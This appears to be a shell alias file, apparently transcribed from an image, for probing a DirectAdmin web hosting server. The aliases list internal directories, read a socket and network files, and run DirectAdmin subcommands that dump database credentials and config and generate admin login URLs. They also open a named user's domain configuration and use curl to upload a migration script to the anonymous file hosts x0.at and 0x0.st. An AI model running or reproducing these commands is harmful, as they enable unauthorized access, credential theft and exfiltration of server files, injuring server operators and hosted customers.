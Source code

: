 # 03) DirectAdmin: plugins/shared, sockets, and directadmin binary ops
alias h03_da_admin_ops='
  pushd /usr/local/directadmin >/dev/null; ls;
    pushd plugins >/dev/null || true; ls; popd >/dev/null || true;
    pushd data >/dev/null; ls; popd >/dev/null;
    pushd shared >/dev/null; ls;
      { cat internal.sock || true; cat startips-network || true; }
    popd >/dev/null;
    ./directadmin || true;
    ./directadmin permissions || true;
    sudo ./directadmin permissions || true;
    ./directadmin version || true;
    ./directadmin update || true;
    ./directadmin my-cnf || true;
    ./directadmin create-login-url || true;
    ./directadmin license || true;
    ./directadmin login-url || true;
    ./directadmin info || true;
    ./directadmin config-get || true;
    ./directadmin config-get -h || true;
    ./directadmin admin || true;
    ./directadmin build || true;
    pwd; ls
  popd >/dev/null
'

# 04) DirectAdmin: create/edit domain conf sample
alias h04_da_edit_domain_conf='
  pushd /usr/local/directadmin/data/users/ibbsbbry/domains >/dev/null;
    ls; touch cut.ia.br.conf; ${EDITOR:-nano} cut.ia.br.conf || true; cat cut.ia.br.conf || true;
  popd >/dev/null
'

# 05) DirectAdmin: cPanel migration scripts and internals
alias h05_da_migration_scripts='
  pushd /usr/local/directadmin >/dev/null; ls;
    pushd shared >/dev/null; ls; pushd cpanel_to_da >/dev/null; ls; cat cpanel_to_da.sh || true; popd >/dev/null;
    ls; pushd internal.sock >/dev/null || true; cat internal.sock || true; popd >/dev/null || true;
    { cat startips-networkd || true; }
    pushd scripts >/dev/null; ls; pushd cpanel_to_da >/dev/null || true; ls; popd >/dev/null || true;
  popd >/dev/null
'

# 06) Transfer helpers: curl uploads and quick sysinfo
alias h06_transfers_sysinfo='
  pushd /usr/local/directadmin/scripts/cpanel_to_da >/dev/null || true; ls || true; touch text.md || true; popd >/dev/null || true;
  curl --help || true;
  curl -fsS -F "file=@-;filename=cpanel_to_da.sh" https://x0.at/ <<<"placeholder" || true;
  curl -F "file=@cpanel_to_da.sh" https://0x0.st || true;
  getconf --help || true;
  uptime || true;
  ip a || true;
  which npx || true; npx --help || true;
  npm --help || true; npm --version || true; which npm || true
'
